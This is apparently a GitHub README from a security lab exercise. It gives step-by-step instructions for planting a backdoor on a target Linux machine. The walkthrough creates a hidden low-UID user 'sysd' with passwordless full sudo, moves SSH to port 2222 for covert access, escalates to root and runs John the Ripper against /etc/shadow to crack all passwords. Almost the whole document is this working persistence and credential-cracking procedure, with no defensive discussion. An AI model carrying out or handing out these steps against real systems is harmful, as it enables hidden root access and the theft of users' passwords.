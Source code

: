 # Advanced_Bash
Accomplishing the goal of maintaining access of a target machine by installing a backdoor.


## Step 1: Shadow People

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:

**adduser --system --no-create-home sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%201.jpg)

2. Give your secret user a password:

**passwd sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%202.jpg)

3. Give your secret user a system UID < 1000:

**usermod -u 50 sysd**

![name-of-you-image](https://github.com/ldover29/Advanced_Bash/blob/a5ca22e065dbd3071b155b1fb557e9ff49bd6103/Images/Step%201%203.jpg)

Give your secret user the same GID:


usermod -u 50 -g 50 sysd

Give your secret user full sudo access without the need for a password:


sysd ALL=(ALL) NOPASSWD:ALL

Test that sudo access works without your password:

sudo -l

sudo adduser --system --no-create-home test

Step 2: Smooth Sailing
Edit the sshd_config file:

 Port 2222



Step 3: Testing Your Configuration Update
Restart the SSH service:


systemctl reload sshd
Exit the root account:


exit
SSH to the target machine using your sysd account and port 2222:


ssh sysd@192.168.6.105 -p 2222

Use sudo to switch to the root user:


sudo su

Step 4: Crack All the Passwords
SSH back to the system using your sysd account and port 2222:


ssh sysd@192.168.6.105 -p 2222
Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:


sudo su
john /etc/shadow

Passwords:


